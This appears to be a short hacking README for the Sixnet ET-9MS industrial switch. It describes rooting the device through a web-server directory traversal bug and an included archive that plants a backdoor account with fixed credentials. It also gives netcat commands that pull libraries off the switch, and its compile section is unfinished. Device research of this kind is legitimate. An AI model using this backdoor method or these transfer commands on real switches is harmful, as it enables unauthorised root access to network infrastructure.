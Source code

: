 # Sixnet ET-9MS Hacking
## Getting started

So you want to mangle packets using a Sixnet ET-9MS network switch. Great.

Prerequisites:

- ELDK 4.1 from Denx - download from here: ftp://ftp.denx.de/pub/eldk/4.1/arm-linux-x86/distribution/README.html . We installed this on Fedora Core 7, which worked well.
- Libpcap headers from Libpcap 0.9.4. Other versions may work, unless there was an API change.
- libswm.so and libswfile.so from your network switch (see how to retrieve these files in the 'rooting' section below).

## Rooting your switch

To make changes to your switch firmware, you first need to root your switch.

The best way to root the switch is to use a directory traversal bug in the web server interface.

We have included root.tar.gz file in the /exploit/ directory. Upload this file. It will create a backdoor account in the switch with username 'backdoor' and password 'dblabs'.

You may then telnet or SSH to the switch and will have a root shell.

## Retrieving libswm and libswfile

These shared libraries are stored in /usr/lib/ . I recommend transferring them off of the switch using netcat:

&#35; cd /usr/lib
&#35; nc <your computer IP> 4444 < libswm.so.1.4.0
&#35; nc <your computer IP> 4444 < libswfile.so

Set up a netcat listener on port 4444 on your workstation to receive the files:

$ nc -l -p 4444 > libswm.so
$ nc -l -p 4444 > libswfile.so

## Compiling and linking

The following exports are needed to successfully compile the swm-test.c program
(TODO)

